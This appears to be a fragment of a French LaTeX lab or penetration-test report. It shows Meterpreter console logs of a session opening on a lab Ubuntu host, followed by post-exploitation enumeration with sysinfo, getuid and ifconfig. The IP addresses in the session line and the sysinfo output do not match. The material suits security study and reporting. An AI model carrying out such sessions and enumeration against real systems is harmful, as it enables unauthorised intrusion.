 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\subsection{Établissement de la Session}
	
	\begin{lstlisting}[style=logstyle,caption=Connexion Meterpreter Réussie]
		[*] Sending stage (3090404 bytes) to 192.168.100.6
		[*] Meterpreter session 1 opened (192.168.100.150:4445 -> 192.168.100.6:39218)
		at 2026-03-04 15:09:09 +0000
		
		(Meterpreter 1)(/tmp) >
	\end{lstlisting}
	
	✅ \textbf{Succès !} Nous disposons désormais d'une session Meterpreter stable et chiffrée.
	
	\section{Énumération Post-Exploitation}
	
	\subsection{Informations Système}
	
	\begin{lstlisting}[caption=Commande sysinfo]
		(Meterpreter 1)(/tmp) > sysinfo
		Computer     : 192.168.10.100
		OS           : Ubuntu 25.04 (Linux 6.14.0-37-generic)
		Architecture : x64
		BuildTuple   : x86_64-linux-musl
		Meterpreter  : x64/linux
	\end{lstlisting}
	
	\subsection{Informations Utilisateur}
	
	\begin{lstlisting}[caption=Identité de l'Agent]
		(Meterpreter 1)(/tmp) > getuid
		Server username: telnetuser
	\end{lstlisting}
	
	\subsection{Configuration Réseau}
	
	\begin{lstlisting}[caption=Interfaces Réseau Détectées]
		(Meterpreter 1)(/tmp) > ifconfig
		
		Interface  1
		============
		Name         : lo
		Hardware MAC : 00:00:00:00:00:00
		IPv4 Address : 127.0.0.1
		IPv4 Netmask : 255.0.0.0
		
		Interface  2
		============
		Name         : ens33
		Hardware MAC : 00:0c:29:39:8b:76
		IPv4 Address : 192.168.10.100
		IPv4 Netmask : 255.255.255.0
		IPv6 Address : fe80::20c:29ff:fe39:8b76
		
		Interface  3
		============
		Name         : docker0
		Hardware MAC : 8a:11:e1:8d:6f:fa
		IPv4 Address : 172.17.0.1
		IPv4 Netmask : 255.255.0.0
	\end{lstlisting}
	
\end{document}
